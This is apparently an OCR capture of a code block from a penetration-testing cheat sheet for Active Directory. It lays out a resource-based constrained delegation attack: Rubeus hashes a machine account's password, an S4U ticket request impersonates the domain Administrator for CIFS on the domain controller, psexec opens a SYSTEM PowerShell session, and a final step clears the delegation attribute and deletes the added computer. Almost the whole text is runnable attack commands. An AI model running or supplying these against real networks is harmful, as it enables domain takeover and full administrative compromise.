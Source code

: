 ```
# Use rubeus to get the RC4 hash of the machine account
.\rubeus.exe hash /password:<machine_password>
# Or aes256
.\rubeus.exe hash /password:<machine_password> /domain:DOMAIN.FQDN /user:<created_machine$>
#extract the rc4_hmac/aes256_cts_hmac_sha1 value ==> <rc4_hash>

# Execute the impersonation and get a TGS as Domain Administrator for the service cifs on the DC
.\rubeus.exe s4u /user:<created_machine$> /rc4:<rc4_hash> /impersonateuser:<target_user(Administrator)> /msdsspn:cifs/<target_machine.DOMAIN.FQDN> /domain:DOMAIN.FQDN /ptt

# Get a session on the DC
.\psexec64.exe -accepteula \\<target_machine.DOMAIN.FQDN>\ -s powershell.exe

# Optional cleanup
# If msds-allowedtoactonbehalfofotheridentity field was empty before
Get-DomainComputer <target_machine> | Set-DomainObject -Clear 'msds-allowedtoactonbehalfofotheridentity'
Remove-ADComputer -Identity "<created_machine>"
```
